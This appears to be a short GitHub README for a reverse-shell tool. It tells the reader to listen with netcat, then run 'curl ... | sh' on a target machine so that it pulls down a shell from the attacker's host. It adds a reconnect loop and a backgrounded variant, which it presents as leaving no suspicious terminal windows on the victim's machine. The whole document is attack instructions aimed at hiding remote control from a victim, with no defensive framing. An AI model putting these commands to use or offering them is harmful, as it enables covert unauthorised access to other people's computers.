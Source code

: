 # reverse-shell
reverse shell in javascript


# 1. Usage:
- on your machine, open up your terminal and listen for connection you can do it using netcat

` nc -l 1337`

# 2.  Execute reverse shell on target:
- on the target machine, pipe the output of the http://localhost/yourip:port | sh

`curl http://localhost/yourip:port | sh`

# Reconnecting
- by default when the shell exist you lose you connection. you may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop

`while true; do curl http://localhost/yourip:yourport | sh; done`

# Running as a background process
- the terminal session needs to kept open to persist the reverse shell connection. the following command will run the reverse shell in a background process and exit the termial, leaving no suspicious looking terminal windows open on the victim's machien

- Make sure you run this in a fresh terminal

` sh -c "curl http://localhost/yourip:yourport | sh -i &" && exit`

